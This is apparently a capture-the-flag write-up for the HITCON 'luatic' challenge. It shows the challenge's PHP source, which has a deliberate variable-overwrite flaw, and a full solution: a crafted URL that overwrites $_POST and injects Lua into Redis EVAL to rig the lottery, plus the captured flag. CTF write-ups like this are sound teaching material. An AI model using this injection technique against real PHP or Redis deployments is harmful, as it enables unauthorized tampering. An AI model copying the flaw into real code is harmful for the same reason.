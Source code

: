 # Description
Author: [@orange_8361](https://twitter.com/orange_8361)
```
Win the jackpot!
54.250.242.183
```
# luatic.php
```php
<?php
    /* Author: Orange Tsai(@orange_8361) */
    include "config.php";

    foreach($_REQUEST as $k=>$v) {
        if( strlen($k) > 0 && preg_match('/^(FLAG|MY_|TEST_|GLOBALS)/i',$k)  )
            exit('Shame on you');
    }

    foreach(Array('_GET','_POST') as $request) {
        foreach($$request as $k => $v) ${$k} = str_replace(str_split("[]{}=.'\""), "", $v);
    }

    if (strlen($token) == 0) highlight_file(__FILE__) and exit();
    if (!preg_match('/^[a-f0-9-]{36}$/', $token)) die('Shame on you');

    $guess = (int)$guess;
    if ($guess == 0) die('Shame on you');

    // Check team token
    $status = check_team_redis_status($token);
    if ($status == "Invalid token") die('Invalid token');
    if (strlen($status) == 0 || $status == 'Stopped') die('Start Redis first');

    // Get team redis port
    $port = get_team_redis_port($token);
    if ((int)$port < 1024) die('Try again');
    
    // Connect, we rename insecure commands
    // rename-command CONFIG ""
    // rename-command SCRIPT ""
    // rename-command MODULE ""
    // rename-command SLAVEOF ""
    // rename-command REPLICAOF ""
    // rename-command SET $MY_SET_COMMAND
    $redis = new Redis();
    $redis->connect("127.0.0.1", $port);
    if (!$redis->auth($token)) die('Auth fail');

    // Check availability
    $redis->rawCommand($MY_SET_COMMAND, $TEST_KEY, $TEST_VALUE);
    if ($redis->get($TEST_KEY) !== $TEST_VALUE) die('Something Wrong?');

    // Lottery!
    $LUA_LOTTERY = "math.randomseed(ARGV[1]) for i=0, ARGV[2] do math.random() end return math.random(2^31-1)";
    $seed  = random_int(0, 0xffffffff / 2);
    $count = random_int(5, 10);
    $result = $redis->eval($LUA_LOTTERY, array($seed, $count));

    sleep(3); // Slow down...
    if ((int)$result === $guess)
        die("Congratulations, the flag is $FLAG");
    die(":(");
```
# Team token
```
Token: 7a70261c-xxxx-xxxx-xxxx-7a8a84c655f1
```
# Timeline
- Setup Docker container (of course :v)
- Clear all filters/tests/replacements to find the main solution to bypass lua `math.random` function and win the jackpot
- Bypass `preg_match('/^(FLAG|MY_|TEST_|GLOBALS)/i',$k)` test
- Bypass `str_replace(str_split("[]{}=.'\""), "", $v)` replacement
- Won the jackpot

# Final works
- To win the jackpot, we want to reset the `math.random` function by `math.random = function () returns 123 end`
so `math.random()` will return `123`, equal to `guess` we have sent
- To bypass `preg_match('/^(FLAG|MY_|TEST_|GLOBALS)/i',$k)` test, we use `/luatic.php?token=TEAM_TOKEN&guess=123&_POST[MY_SET_COMMAND]=set&_POST[TEST_KEY]=1&_POST[TEST_VALUE]=1`
so `$_POST` variable will be overwritten to `['MY_SET_COMMAND' => 'set', 'TEST_KEY' => '1', 'TEST_VALUE' => '1']`
and will be extracted to php variables
- To bypass `str_replace(str_split("[]{}=.'\""), "", $v)` replacement, we use `for k, v in pairs(math) do rawset(math, k, function() return 123 end) end` to reset `math.random` function
- Final payload: `/luatic.php?token=TEAM_TOKEN&guess=123&_POST[MY_SET_COMMAND]=eval&_POST[TEST_KEY]=for k, v in pairs(math) do rawset(math, k, function() return 123 end) end&_POST[TEST_VALUE]=0`
and got the Flag: `hitcon{Lua^H Red1s 1s m4g1c!!!}`

Please follow for more informations:
- https://github.com/orangetw/My-CTF-Web-Challenges#luatic
- https://redis.io/commands/eval

